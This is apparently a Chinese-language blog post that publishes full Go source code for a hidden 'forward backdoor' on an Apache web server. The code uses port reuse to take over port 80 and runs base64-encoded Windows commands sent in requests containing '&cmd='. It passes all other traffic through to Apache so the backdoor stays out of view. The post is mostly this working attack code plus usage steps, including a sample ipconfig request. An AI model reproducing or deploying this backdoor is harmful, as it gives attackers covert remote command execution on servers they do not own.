 ```yaml
---
layout: post
title: "端口复用：使用go_reuseport实现Apache 服务器正向后门（Go实现）"
date: 2019-07-12 
description: "端口复用"
tag: 工具开发
---   
```


### 直接公布源代码吧


利用go_reuseport,实现对apache服务器80端口请求的接管，将特定的请求进行特定的回应，其他请求通过回环地址转发给apache

可自行设定过滤关键字，目前关键字为“&cmd=”，请求时后方加上要执行的命令（base64编码后的命令）

Usage：

1.管理员权限cmd

2.执行 go-reuseport.exe x.x.x.x:80

3.浏览器请求 http:x.x.x.x/&cmd=aXBjb25maWc=    浏览器将返回ipconfig命令的执行结果。


package main

import (
	"encoding/base64"
	"fmt"
	"github.com/kavu/go_reuseport"
	"html"
	"io"
	"net"
	"net/http"
	"os"
	"os/exec"
	"strings"
)

func main() {
	//get local ip
	//ipmap, err := getIP()
	fmt.Println("Welcome!")

	var input_ipaddr = os.Args[1]

	listener, err := reuseport.NewReusablePortListener("tcp", input_ipaddr)
	if err != nil {
		panic(err)
	}
	defer listener.Close()

	server := &http.Server{}
	http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
		//fmt.Println(os.Getgid())
		var fullpath string = html.UnescapeString(r.URL.RequestURI())
		var result bool = strings.Contains(fullpath, "&cmd=")
		if result{
			index_f := strings.Index(fullpath,"cmd=")
			cmd_str := fullpath[index_f+4:]
			decodeBytes, err := base64.StdEncoding.DecodeString(cmd_str	)
			cmd := exec.Command("cmd","/c", string(decodeBytes))
			out, err := cmd.Output()
			if err !=nil{
				fmt.Println(err)
			}
			var re string =  string(out)
			fmt.Fprintf(w, " <html>")
			fmt.Fprintf(w, " %q\n", strings.Replace(re, "\r\n", "</br>", -1))
			//fmt.Fprintf(w, "Hello, %q\n", html.EscapeString(r.URL.Path))
			fmt.Fprintf(w, " </html>")
		}else {
			transport :=http.DefaultTransport
			outReq := new(http.Request)
			*outReq = *r
			if clientIP,_, err := net.SplitHostPort(r.RemoteAddr); err == nil {
				if prior, ok := outReq.Header["X-Forwarded-For"]; ok {
					clientIP = strings.Join(prior, ",") + "," + clientIP
				}
				outReq.Header.Set("X-Forwarded-For", clientIP)
				outReq.Header.Set("Host", "127.0.0.1")
				outReq.URL.Scheme = "http"
				outReq.URL.Host = "127.0.0.1"
			}

			res, err := transport.RoundTrip(outReq)
			if err != nil {
				w.WriteHeader(http.StatusBadGateway)
				return
			}

			for key, value :=range res.Header{
				for _, v := range value{
					w.Header().Add(key, v)
				}
			}
			w.WriteHeader(res.StatusCode)
			io.Copy(w, res.Body)
			res.Body.Close()
		}

	})

	panic(server.Serve(listener))
}


func getIP()(map[string]string, error){
	ips :=  make(map[string]string)

	interfaces, err := net.Interfaces()
	if err != nil {
		return nil,err
	}

	for _, i := range interfaces {
		byName, err := net.InterfaceByName(i.Name)
		if err != nil {
			return nil,err
		}
		addresses, err := byName.Addrs()
		for _, v := range addresses {
			ips[byName.Name] = v.String()
		}
	}
	return ips, err
}